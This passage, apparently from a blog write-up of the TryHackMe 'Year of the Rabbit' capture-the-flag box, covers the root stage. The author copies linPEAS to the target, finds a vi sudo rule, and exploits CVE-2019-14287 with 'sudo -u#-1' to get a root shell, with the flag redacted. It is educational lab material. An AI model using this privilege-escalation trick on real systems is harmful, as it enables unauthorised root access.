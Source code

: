 Now let's root this machine. But with all this box has thrown with us so far, we'd best make life easy and scp linPEAS onto the system.

```console
scp linpeas.sh gwendoline@<TARGET IP>:/home/gwendoline 
```
After running linPEAS we learn that we have some interesting permissions on the `user.txt` file.
```console
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Normally this would be a deadend, we cannot execute the command as a root user. However, linPEAS found the sudo version on this box vulnerable to CVE-2019-14287 [^footnote2]. Versions of sudo lower than 1.8.28 don’t properly check user ids. For instance, passing an id of -1 in our command returns an id of 0, root’s id. Ergo, we can manipulate the system by having it execute our command as root.

```console
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![Desktop View](thm-year-of-the-rabbit-root-shell-in-vi.png) 
_Type the following in vi and press the return key to get a root shell._

```console
whoami
root
cat /root/root.txt
THM{FLAG REDACTED}
```

**Its over, the rabbit is stewed!**

***

### References

[^footnote]: https://www.dcode.fr/cipher-identifier
[^footnote2]: https://www.exploit-db.com/exploits/47502